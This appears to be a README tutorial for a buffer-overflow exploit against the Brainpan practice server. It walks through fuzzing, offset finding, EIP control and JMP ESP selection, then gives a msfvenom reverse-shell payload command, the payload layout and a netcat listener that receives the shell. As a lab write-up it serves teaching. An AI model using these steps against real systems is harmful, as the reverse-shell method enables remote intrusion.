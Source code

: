 <h1>Brainpan BOF server </h1>
<br><h2>steps</h2>
<br><br><h3>1. spiking</n>
<br>2.fuzzing</n>
<br>3. finding the offset
<br>4. overwriting the EIP
<br>5. finding bad characters
<br>6. finding the right modules
<br>7. Generating Shellcode</h3>

    <h2>    1 .spiking </h2> 
*First make sure youe firewall real protection turn off
*Now run brainpan server as admin
*use your spiking.spk to find Vulnerability 
script is --> 
<b>s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

*Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server scrash ? boom you  succeed :D )`


``     <h2>2 .fuzzing</h2>

*Now time to find Number of size buffer which crash server 
(user chmod +x * )
* ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
*Now create pattern , why ? to find exact number of Buffer size
*First create unic pattern using metasploit tool
* /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
* Now usr offsetcalc.py to find lenght later we will find offset which is our exact buffer size in byte :D 
* ./offsetcalc.py IP PORT
*get EIP value ? now use it at offset
		
		<h2>3. finding the offset</h2>
*find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
* boom ?? we get Exact Number of size which is 524

		<h2>4. overwriting the EIP</h2>
*Now Verify EIP Overwrite or Not By B, add B*4 and check debuger print 42424242 at EIP or not
./brainpanEIPWt.py IP PORT
* YES --> ok great

		<h2>5. finding bad characters</h2>
* Now find Bad chars which is use while create shellcode , actual we dont found bad chars in this servers, but dont skip this step go head
and just do practice ;) 
* ./brainpanBadChard.py IP PORT
* remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you :)
bad chars 

	<h2>6. finding the right modules</h2>
* Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place

* use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
*now find base value note it down
and make sure ur JMP ESP use Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 
click arrow type jump number
*fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode

*control EIP done

			<h2>7. Generating Shellcode</h2>
*now generarte shellcode 

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)


"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
*make sure your nc is ready
 nc -lvnp 443

*and now fire your final code 
./finalexploit.py IP PORT

*boom you will get shell 
*if not then sorry please recheck all step clearly 
*thanks i hope you love this repo :D 

<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
</b>
